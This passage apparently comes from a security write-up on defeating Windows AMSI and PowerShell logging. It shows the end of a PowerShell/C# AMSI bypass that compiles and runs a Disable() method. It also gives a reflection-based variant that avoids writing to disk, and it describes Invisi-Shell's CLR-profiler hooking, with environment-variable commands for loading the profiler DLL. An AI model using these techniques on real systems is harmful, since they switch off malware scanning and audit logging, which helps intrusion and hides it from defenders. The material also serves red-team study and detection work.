 ```powershell

        public static string FromHexBuffer(String hexdata)
        {
            string buffer="";
            String[] hexbuffersplit = hexdata.Split(';');
            foreach (String hex in hexbuffersplit)
            {
                int value = Convert.ToInt32(hex, 16);
                buffer+= Char.ConvertFromUtf32(value);
            }

            return buffer;
        }
    }
}
"@;

Add-Type -ReferencedAssemblies $Ref -TypeDefinition $Source -Language CSharp;
iex "[Bypass.AMSI$id]::Disable() | Out-Null"
Write-host -ForegroundColor green "AMSI won't be called anymore"
```

Be aware that using `Add-Type` to compile on the fly `C#` in PowerShell code will touch the disk, dropping some `*.cs` to a temporary directory during the compilation phase. In order to avoid to touch disk we need to compile separately the DLL and load it via .NET Reflection:

```powershell
[Reflection.Assembly]::Load($AMSIBypassDLLBytes)
[Bypass.AMSI]::Disable()
```

For more information, you can refer to [Out-CompressedDll.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/ScriptModification/Out-CompressedDll.ps1) by [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

### Hooking .NET Framework via CLR

Another powerful technique is based on hooking at runtime the .NET Framework via CLR Profiler API, as seen in [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) by Omer Yiar.
This project is able to bypass all the protection mechanisms of PowerShell, that are Script Block Log, Module Logging, Transcription and AMSI.

Using CLR Profiler APIs, `Invisi-Shell` is able to hook .NET assemblies [10] and disable any kind of protection mechanisms by always overwriting the input length attribute with `0`. As we saw above, if the input is empty, `AMSI_RESULT_NOT_DETECTED` will be returned and the same logic applies to every other security mechanisms.

The only downside of this techinique is that you have to drop a DLL on disk, in order to be loaded by the CLR Profiler APIs.

There are two ways of loading the DLL:

1. via ENV variables (**admin required**)

```cmd
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell
```
